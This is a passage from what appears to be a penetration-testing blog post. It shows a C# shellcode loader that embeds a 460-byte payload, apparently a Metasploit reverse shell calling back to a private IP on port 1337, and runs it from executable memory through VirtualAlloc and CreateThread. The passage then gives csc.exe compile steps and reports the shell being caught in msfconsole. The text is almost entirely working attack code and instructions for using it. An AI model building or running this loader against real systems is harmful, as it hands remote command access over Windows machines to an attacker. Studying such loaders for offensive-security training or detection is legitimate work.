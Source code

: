         
        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
           byte[] shellCode = new byte[460] {
              0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
              0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
              0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
              0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
              0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
              0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
              0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
              0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
              0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
              0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
              0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
              0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
              0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
              0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
              0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
              0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x05,0x39,0xc0,0xa8,0x38,0x69,0x41,0x54,
              0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
              0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
              0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
              0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
              0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
              0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
              0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
              0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
              0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
              0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
              0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
              0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
              0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
              0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
              0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };

            IntPtr rwxMemory = VirtualAlloc(IntPtr.Zero, (uint)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellCode, 0, rwxMemory, shellCode.Length);
            IntPtr shellCodeThread = CreateThread(IntPtr.Zero, 0, rwxMemory, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(shellCodeThread, 0xFFFFFFFF);

        }
    }
}

{% endhighlight %}
You can use either Visual Studio or csc.exe to compile the file. Assuming its saved at Program.cs, run the following to compile it to Program.exe:
{% highlight shell %}
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe Program.cs
Microsoft (R) Visual C# Compiler version 4.8.4084.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
{% endhighlight %}
Then when run with msfconsole set up, a shell is caught :)
{% include figure image_path="/assets/img/runningProgram.png" alt="" caption="" %}
{% include figure image_path="/assets/img/catchingshell.png" alt="" caption="" %}
